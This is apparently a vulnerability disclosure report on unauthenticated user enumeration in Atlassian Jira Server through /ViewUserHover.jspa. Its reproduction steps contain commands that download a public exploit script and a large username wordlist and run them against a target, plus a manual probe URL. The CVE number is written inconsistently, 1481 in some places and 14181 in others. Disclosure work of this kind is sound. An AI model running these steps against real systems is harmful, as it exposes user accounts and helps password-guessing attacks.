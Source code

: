 
# Jira user enumeration using CVE-2020-1481

## Summary

Affected versions of Atlassian Jira Server and Data Center allow an unauthenticated user to enumerate users via an Information Disclosure vulnerability in the /ViewUserHover.jspa endpoint.

Affected versions:

-   version < 7.13.16
**-   8.0.0 ≤ version < 8.5.7**
-   8.6.0 ≤ version < 8.12.0

Your Jira instance is version v8.5.3. 

## Steps To Reproduce

 1. Download the python file 
``wget https://raw.githubusercontent.com/Rival420/CVE-2020-14181/main/cve-2020-1481.py``
2. Download a username file list
``wget https://github.com/danielmiessler/SecLists/raw/master/Usernames/xato-net-10-million-usernames.txt``
3. Run it in the following way
``python3 cve-2020-1481.py -u $URL -w xato-net-10-million-usernames.txt
``

This is the output you will get (after running it for 30 mins or so) 
```
 +-+-+-+-+ +-+-+-+-+-+-+-+-+ +-+-+-+-+-+-+-+-+-+
 |J|I|R|A| |U|s|e|r|n|a|m|e| |V|a|l|i|d|a|t|o|r|
 +-+-+-+-+ +-+-+-+-+-+-+-+-+ +-+-+-+-+-+-+-+-+-+
 made by rival23

vulnurl = $URLsecure/ViewUserHover.jspa?username=
wordlist = xato-net-10-million-usernames.txt

$OUTPUT

```
You can manually validate the user's existence using the following url:
$URL/secure/ViewUserHover.jspa?username=ptaylor
(change **ptaylor** for another user you might want to check)

## Impact
All obtained users are valid users of the Jira installation, some provide full name of the user.  It also affects confidentiality of the system. Knowing usernames before hand would help and attacker to get valid credentials brute forcing for passwords. 

 

### Supporting Material/References:
https://nvd.nist.gov/vuln/detail/CVE-2020-14181
https://www.rapid7.com/db/vulnerabilities/atlassian-jira-cve-2020-14181/


